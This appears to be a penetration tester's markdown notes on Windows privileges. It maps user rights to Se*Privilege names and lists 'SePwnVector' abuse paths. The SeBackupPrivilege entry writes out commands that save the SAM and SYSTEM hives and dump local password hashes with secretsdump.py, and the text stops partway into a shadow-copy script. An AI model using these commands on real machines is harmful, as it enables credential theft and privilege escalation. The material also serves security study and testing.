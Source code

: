 | Lock pages in memory | SeLockMemoryPrivilege|
| Log on as a batch job | SeBatchLogonRight|
| Log on as a service | SeServiceLogonRight|
| Manage auditing and security log | SeSecurityPrivilege|
| Modify an object label | SeRelabelPrivilege|
| Modify firmware environment values | SeSystemEnvironmentPrivilege|
| Perform volume maintenance tasks | SeManageVolumePrivilege|
| Profile single process | SeProfileSingleProcessPrivilege|
| Profile system performance | SeSystemProfilePrivilege|
| Remove computer from docking station | SeUndockPrivilege|
| Replace a process level token | SeAssignPrimaryTokenPrivilege|
| Restore files and directories | SeRestorePrivilege|
| Shut down the system | SeShutdownPrivilege|
| Synchronize directory service data | SeSyncAgentPrivilege|
| Take ownership of files or other objects | SeTakeOwnershipPrivilege

---
### SePwnVector

- ##### SeTrustedCredManAccessPrivilege

- ##### SeNetworkLogonRight

- ##### SeTcbPrivilege
    - S4U Logon
        - Act as part of the operating system.
        - Allows a process to assume the identity of any user and thus gain access to the resources that the user is authorized to access.
    - PTOKEN_GROUPS parameter in LsaLogonUser() can be modified 
        - The calling process may request that arbitrary additional accesses be put in the access token.
    - Impersonate threads or processes

- ##### SeMachineAccountPrivilege

- ##### SeIncreaseQuotaPrivilege

- ##### SeInteractiveLogonRight

- ##### SeRemoteInteractiveLogonRight

- ##### SeBackupPrivilege
    - Allows the user to circumvent file and directory permissions to backup the system. The privilege is selected only when the application attempts to access through the NTFS backup application interface. Otherwise normal file and directory permissions apply.”
    - `reg save HKLM\SYSTEM c:\temp\system.hive`
    - `reg save HKLM\SAM c:\temp\sam.hive`
    - `secretsdump.py -sam sam.hive -system system.hive LOCAL`
    - NinjaCopy
    - Abusing Backup Operators Group with shadow copy
        ```powershell
        # Create  script.txt file that will contain the shadow copy process script
        #Script ->{
        set context persistent nowriters  
        set metadata c:\windows\system32\spool\drivers\color\example.cab  